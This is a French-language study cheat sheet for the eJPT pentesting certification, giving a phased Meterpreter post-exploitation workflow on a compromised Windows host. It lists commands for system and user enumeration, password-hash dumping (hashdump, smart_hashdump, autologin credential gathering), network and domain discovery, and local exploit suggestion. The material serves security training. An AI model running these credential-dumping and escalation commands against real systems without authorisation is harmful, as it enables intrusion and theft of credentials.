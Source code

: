 
## 💡 14. Workflow d'énumération recommandé

### Phase 1: Reconnaissance de base
```bash
# Dans Meterpreter
sysinfo
getuid
getprivs
ps
```

### Phase 2: Énumération système
```bash
# Utilisateurs et groupes
run post/windows/gather/enum_logged_on_users
shell
net user
net localgroup administrators
exit
```

### Phase 3: Recherche de credentials
```bash
# Dump des hashes
hashdump
run post/windows/gather/smart_hashdump
run post/windows/gather/credentials/windows_autologin
```

### Phase 4: Énumération réseau
```bash
ipconfig
route
run post/windows/gather/enum_shares
run post/windows/gather/enum_domain
```

### Phase 5: Recherche d'escalation
```bash
run post/multi/recon/local_exploit_suggester
run post/windows/gather/enum_applications
```

---

## 🎯 15. Conseils spécifiques eJPT

### Commandes prioritaires
1. **`sysinfo`** - Toujours en premier
2. **`getuid`** - Identifier l'utilisateur
3. **`hashdump`** - Récupérer les hashes
4. **`run post/multi/recon/local_exploit_suggester`** - Trouver des exploits
5. **`ps`** - Identifier les processus pour migration

